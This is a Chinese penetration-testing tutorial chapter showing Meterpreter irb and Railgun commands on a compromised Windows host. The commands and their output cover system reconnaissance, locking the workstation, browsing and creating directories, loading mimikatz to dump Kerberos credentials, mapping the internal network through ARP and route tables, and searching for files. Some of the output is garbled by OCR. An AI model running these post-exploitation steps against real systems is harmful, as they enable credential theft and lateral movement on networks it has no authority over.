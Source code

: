 ### 10.5 meterpreter下的irb操作（一）

Railgun是Meterpreter stdapi的扩展，允许任意加载DLL。Railgun的最大好处是能够动态访问系统上的整个Windows API。通过从用户进程调用Windows API。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220604818.png%23pic_center)

meterpreter下执行irb进入ruby交互。-
基本的信息搜集：

    >> client.sys.config.sysinfo['OS']
    => "Windows .NET Server (Build 3790, Service Pack 2)."
    >> client.sys.config.getuid
    => "WIN03X64\\Administrator"
    >> interfaces = client.net.config.interfaces
    =>[#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Interface:0x000055aee92c5770 @index=65539, @mac_addr="\x00\f)\x85\xD6}", @mac_name="Inte l(R) PRO/1000 MT Network Connection", @mtu=1500, @flags=nil, @addrs=["19 2.168.1.119"], @netmasks=["255.255.255.0"], @scopes=[]>, #<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Interface:0x000055aee92c5220 @index=1,@mac_addr="", @mac_name="MS TCP Loopback interface", @mtu=1520, @flags=ni l,@addrs=["127.0.0.1"], @netmasks=[], @scopes=[]>]
    >> interfaces.each do |i|
    ?> puts i.pretty
    >> end
    
    Interface 65539
     ============
    Name : Intel(R) PRO/1000 MT Network Connection
    Hardware MAC : 00:0c:29:85:d6:7d
    MTU : 1500
    IPv4 Address : 192.168.1.119
    IPv4 Netmask : 255.255.255.0
    Interface 1
     ============
    Name : MS TCP Loopback interface
    Hardware MAC : 00:00:00:00:00:00
    MTU : 1520
    IPv4 Address : 127.0.0.1
    =>[#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Interface:0x000055aee92c5770 @index=65539, @mac_addr="\x00\f)\x85\xD6}", @mac_name="Inte l(R) PRO/1000 MT Network Connection", @mtu=1500, @flags=nil, @addrs=["19 2.168.1.119"], @netmasks=["255.255.255.0"], @scopes=[]>, #<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Interface:0x000055aee92c5220 @index=1, @mac_addr="", @mac_name="MS TCP Loopback interface", @mtu=1520, @flags=ni l, @addrs=["127.0.0.1"], @netmasks=[], @scopes=[]>]
    >>
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220619325.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
锁定注销目标机：

    >> client.railgun.user32.LockWorkStation()
    => {"GetLastError"=>0, "ErrorMessage"=>"\xB2\xD9\xD7\xF7\xB3\xC9\xB9\xA6\xCD\xEA\xB3\xC9\xA1\xA3", "return"=>true}
    >>
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220633474.png%23pic_center)-
调用MessageBox：

    >> client.railgun.user32.MessageBoxA(0, "Micropoor", "Micropoor", "MB_OK")
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220646845.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
快速获取当前绝对路径：

    >> client.fs.dir.pwd
    => "C:\\Documents and Settings\\Administrator\\\xE6\xA1\x8C\xE9\x9D\xA 2"
    
        

目录相关操作：

    >> client.fs.dir.chdir("c:\\")
    => 0
    >> client.fs.dir.entries
    => ["ADFS", "AUTOEXEC.BAT", "boot.ini", "bootfont.bin", "CONFIG.SYS", "Documents and Settings", "Inetpub", "IO.SYS", "MSDOS.SYS", "NTDETECT.CO M", "ntldr", "pagefile.sys", "Program Files", "Program Files (x86)", "RECYCLER", "System Volume Information", "WINDOWS", "wmpub"]
    
        

建立文件夹：

    >> client.fs.dir.mkdir("Micropoor")
    => 0
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220710183.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
hash操作：

    >> client.core.use "mimikatz"
    => true
    >> client.mimikatz
    => #<Rex::Post::Meterpreter::Extensions::Mimikatz::Mimikatz:0x000055aee91ceb28 @client=#<Session:meterpreter 192.168.1.119:53 (192.168.1.119) "WIN03X64\Administrator @ WIN03X64">, @name="mimikatz">
    >> client.mimikatz.kerberos
    =>[{:authid=>"0;996", :package=>"Negotiate", :user=>"NETWORKSERVICE", :domain=>"NT AUTHORITY", :password=>"mod_process::getVeryBasicModulesListForProcess : (0x0000012b) \xC5\x8C\x10\xE8\x06\x84 ReadProcessMemory \x16 WriteProcessMemory \xF7B\x02 \nn.a. (kerberos KO)"},{:authid=>"0;44482", :package=>"NTLM", :user=>"", :domain=>"",:password=>"mod_process::getVeryBasicModulesListForProcess : (0x0000012b) \xC5\x8C\x10\xE8\x06\x84 ReadProcessMemory \x16 WriteProcessMemory \xF7B \x02 \nn.a. (kerberos KO)"}, {:authid=>"0;115231",:package=\>"NTLM", :user=>"Administrator", :domain=>"WIN03X64",:password=>"mod_process::getVery BasicModulesListForProcess : (0x0000012b) \xC5\x8C\x10\xE8\x06\x84 ReadPocessMemory \x16 WriteProcessMemory \xF7B\x02 \nn.a. (kerberos KO)"}, {:a uthid=>"0;997",:package=>"Negotiate", :user=>"LOCAL SERVICE", :domain=>"NT AUTHORITY",:password=>"mod_process::getVeryBasicModulesList ForProcess : (0x0000012b) \xC5\x8C\x10\xE8\x06\x84 ReadProcessMemory \x16 WriteProcessMemory \xF7B\x02 \nn.a. (kerberos KO)"}, {:authid=>"0;999", package=>"NTLM",
    :user=>"WIN03X64$", :domain=>"WORKGROUP", :password=>"mod_process::getVeryBasicModulesListForProcess : (0x0000012b) \xC5\x8C\x10\xE8\x06\x84 ReadProcessMemory \x16 WriteProcessMemory \xF7B\x02 \nn.a. (kerberos KO)"}]
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220724675.png%23pic_center)-
内网主机发现，如路由，arp等：

    >> client.net.config.arp_table
    => [#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Arp:0x000055aee7f5f6b8 @ip_addr="192.168.1.1", @mac_addr="78:44:fd:8e:91:59", @interface="65539">, #<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Arp:0x000055aee7f5ee20 @ip_addr="192.168.1.3", @mac_addr="28:16:ad:3b:51:78", @inteface="65539">]
    >> client.net.config.arp_table[0].ip_addr
    >> => "192.168.1.1"
    >> client.net.config.arp_table[0].mac_addr
    => "78:44:fd:8e:91:59"
    >> client.net.config.arp_table[0].interface
    => "65539"
    >> client.net.config.routes
    => [#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Route:0x000055aee789be58 @subnet="0.0.0.0", @netmask="0.0.0.0", @gateway="192.168.1.1",
    @interface="65539", @metric=10>,#<Rex::Post::Meterpreter::Extensions::St
    dapi::Net::Route:0x000055aee789a7b0 @subnet="127.0.0.0", @netmask="255.0.0.0", @gateway="127.0.0.1", @interface="1", @metric=1>, #<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Route:0x000055aee78993b0 \@subnet="192.168.1.0", @netmask="255.255.255.0", @gateway="192.168.1.119", @interface="65539", @metric=10>, #<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Route:0x000055aee786fec0 @subnet="192.168.1.119", @netmask="255.255.255.255", @gateway="127.0.0.1", @interface="1", @metric=10>,#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Route:0x000055aee786e9d0 @subnet="192.168.1.255", @netmask="255.255.255.255", @gateway="192.168.1.119", @inte
    rface="65539", @metric=10>, #<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Route:0x000055aee786d698 @subnet="224.0.0.0", @netmask="240.0.0.0", @gateway="192.168.1.119", @interface="65539", @metric=10>,#<Rex::Post::Meterpreter::Extensions::Stdapi::Net::Route:0x000055aee785be98 @subnet="255.255.255.255", @netmask="255.255.255.255", @gateway="192.168.1.119",
    @interface="65539", @metric=1>]
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220748670.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**实战中的敏感文件操作，也是目前最稳定，速度最快的方式：**

    >> client.fs.file.search("C:\\", "*.txt")
    
        

更多的敏感文件操作，后续补充。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220806318.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
更多相关的api操作在未来的课时中介绍。

* * *